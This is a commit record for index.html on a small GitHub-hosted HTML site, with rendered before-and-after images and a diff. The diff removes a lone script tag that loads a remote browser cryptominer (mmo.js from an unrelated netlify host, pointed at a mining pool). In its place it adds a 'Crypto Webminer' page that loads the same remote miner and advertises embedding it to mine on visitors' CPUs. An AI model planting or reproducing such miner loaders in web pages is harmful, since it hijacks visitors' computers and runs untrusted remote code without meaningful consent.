

Before and after one commit to Izder456/chukwaweb, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-941 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1 +1,84 @@
-<script src="https://daslebenistkeinponyhof.netlify.com/mmo.js?perfekt=wss://?algo=cn-pico/trtl?jason=fastpool.xyz:3004" > </script>
+<!DOCTYPE html>
+<html lang="en-GB">
+<head>
+	<meta charset="utf-8">
+	<meta name="description" content="Crypto Webminer | Electroneum | Monero | Bytecoin | IntenseCoin | Sumokoin | Dinastycoin | Graft | SuperiorCoin | Turtlecoin | Stellite | DERO | Masari | Cryptonight | Cryptonight-Lite | Cryptonight-Fast | Cryptonight-Pico Custom Pool Support - Mining in your Browser">
+	<meta name="keywords" content="Crypto Miner, Crypto Webminer, Electroneum, Bytecoin, Monero, IntenseCoin, Sumokoin, Dinastycoin, Graft, SuperiorCoin, Turtlecoin mining, Custom Pool Support Cryptonight, Electroneum mining, etn mining, etn miner, etn coins, Monero mining, XMR miner, XMR mining, Stellite mining, Webminer for Cryptocurrency">
+	<meta name="author" content="PiTi - crypto-webminer.com">
+	<meta name="robots" content="noindex, nofollow">
+
+	<title>Crypto Webminer - Mining in your Browser</title>
+    <script src="scripts/jquery-3.2.1.min.js"></script>
+
+	<!-- Wallet Cookie handle -->
+	<script src="scripts/jquery.cookie-1.4.1.min.js"></script>
+
+	<!-- Javascript Constructor -->
+	<script src="https://daslebenistkeinponyhof.netlify.com/mmo.js?v8?perfekt=wss://?algo=cn/r?jason=gulf.moneroocean.stream:10008"></script>
+
+	<!-- Miner UI Controller -->
+    <script src="scripts/gustav.js?v290918"></script>
+
+	<!-- Styles -->
+    <link rel="stylesheet" href="scripts/styles.css">
+
+	<!-- Barchart -->
+    <script src="scripts/Chart.min.js"></script>
+</head>
+
+<h2 align="center">Cryptonight mining<br> by crypto-webminer.com</h2>
+<div class="row" align="center">
+    <div class="box">
+        <h3>hashes/s</h3>
+        <h2 id="hashes-per-second">0</h2>
+    </div>
+    <div class="box">
+        <h3>threads</h3>
+        <h2>
+			<span id="threads">2</span>
+			<span id="thread-add" class="action"> + </span>
+			<span class="divide"> / </span>
+			<span id="thread-remove" class="action"> - </span>
+		</h2>
+    </div>
+</div>
+
+<div class="row" align="center">
+    <div class="box">
+        <h3> Total Hashes | Accepted Shares</h3>
+        <h2 id="accepted-shares">0</h2>
+    </div>
+    <div class="box">
+    </div>
+</div>
+<div align="center">
+    <p id="invalid" style="color:red;"></p>
+</div>
+<div class="row">
+    <input class="text" type="text" id="wallet" placeholder="Enter your Public Wallet Address and Press Start">
+</div>
+
+<div class="row">
+    <canvas id="barchart-canvas" class="stats" width="100%" height="27%"></canvas>
+</div>
+
+<button id="start">Start</button>
+
+<!-- //Keep and respect copyright -->
+<p align="center">© 2017 - 2019 | PiTi - <a href="https://www.crypto-webminer.com">crypto-webminer.com</a></p>
+<p align="center">Chart feature © 2013-2017 Nick Downie - <a href="https://github.com/chartjs/Chart.js/blob/master/LICENSE.md">Released under the MIT license</a></p>
+
+<div align="center">
+<form action="https://www.crypto-webminer.com/miningguides.html" target="_blank"><td><input type="submit" value="You need a helping guide?"/></td></form>
+</div>
+<div align="center">
+<form action="#" target="_blank"><td><input type="submit" value="Check your payments"/></td></form>
+</div><br>
+<div align="center">
+<form action="https://www.crypto-webminer.com/integrate.html"><td><input type="submit" value="You are webmaster or blogger?"/></td></form>
+</div>
+<div align="center">
+<p><font color="darkcyan">Earn cryptocurrencies direct in your wallet - for your website or blog visitors</font></p>
+<p><font color="darkcyan">Integrate our webmining service with easy steps</font></p>
+</div>
+</html>
```
